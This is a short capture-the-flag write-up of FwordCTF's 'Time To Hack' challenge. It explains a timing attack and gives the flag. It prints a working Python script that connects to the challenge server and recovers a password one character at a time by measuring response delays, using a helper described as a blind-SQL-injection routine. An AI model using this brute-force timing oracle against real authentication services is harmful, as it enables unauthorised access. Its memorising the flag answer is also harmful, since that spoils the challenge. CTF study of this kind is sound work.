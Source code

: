 **Time To Hack (misc, first blood)**

This challenge was extremely simple, but the lack of starting locations made this extremely guessy. I eventually figured out that the title of this challenge was hinting towards a timing attack. Knowing this, the password could be recovered by timing how long the response was between the guess and the "Incorrect" statement.

Credits to my teammate, [SuperStormer](https://github.com/SuperStormer/), who gave me this script used for blind sqli attacks.

```python
from pwn import *
import time
import string
import requests
r = remote("timetohack.fword.wtf", 1337)
def blind_sqli(inject_template, sqli_oracle, chars):
    """sqli_oracle takes a sql condition and returns if its true or false
    inject_template is the template for injecting into sqli_oracle"""
    val = ""
    while True:
        for c in chars:
            try:
                curr_val = val + c
                res = sqli_oracle(inject_template.format(curr_val))
                print(curr_val, res)
                if res:
                    val = curr_val
                    break
            except requests.exceptions.ConnectionError:  # really bad error handling
                time.sleep(1)
                break
        else:
            return val
def inject(s):
    r.recvuntil("> ")
    r.sendline("1")
    r.recvuntil("password:")
    start = time.time()
    r.sendline(s)
    r.recvline()
    end = time.time()
    return end - start > float(len(s))/2

blind_sqli("{}", inject, string.digits + string.ascii_letters + "_" + "}")
```

Flag: FwordCTF{_T1C-T0C_got_your_back_}
